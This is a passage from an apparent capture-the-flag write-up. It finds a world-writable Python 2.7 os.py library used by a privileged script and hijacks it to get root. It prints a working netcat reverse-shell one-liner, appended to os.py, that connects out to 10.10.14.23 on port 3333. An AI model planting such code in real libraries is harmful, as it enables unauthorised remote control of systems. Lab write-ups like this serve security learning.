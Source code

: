 Which outputs:

```
/usr/lib/python3.6/os.py
/usr/lib/python3.6/encodings/palmos.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/os.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.pyc
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
```

The script is being run with `python` (not *python3*) so it's version `2.7`.

{{< img "os.png" "OS" "border" >}}

Wow! The library is world-writable, which is pretty weird. We can put a reverse shell in the library and the next time the script executes our shell will be triggered.

To Hijack the library we just have to add at the end of `os.py`:

```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 3333 >/tmp/f")
```

And listening with netcat...

{{< img "root.png" "Root!" "border" >}}

Rooted! 🔓️